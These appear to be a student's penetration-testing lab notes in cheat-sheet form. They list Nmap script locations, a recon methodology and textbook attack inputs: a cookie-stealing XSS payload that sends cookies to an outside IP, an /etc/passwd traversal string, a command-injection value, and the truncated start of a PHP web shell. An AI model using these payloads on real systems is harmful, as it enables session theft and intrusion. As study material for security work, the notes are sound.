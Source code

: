 
----------------------------------

=====================
Nmap Scripts location
=====================

Located in /usr/share/nmap/scripts

Ls -la . | grep "smb*"  ( show all possible smb scripts)


++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
DAY 2

=============
methodology
=============
http-enum script
robots.txt
view page / interact normally
view source

=====
xss
=====
<script>alert("hacked")</script>
<script>document.location="http://10.50.27.253:8000/whatever.php?username=" +document.cookie;</script>


==============
directory trav
==============

../../../../../../../../etc/passwd


==================
command injection
==================
; ls -la



====================
Malicious file
====================
<HTML><BODY>

  <FORM METHOD="GET" NAME="myform" ACTION="">

  <INPUT TYPE="text" NAME="cmd">

  <INPUT TYPE="submit" VALUE="Send">

  </FORM>

  <pre>

  <?php
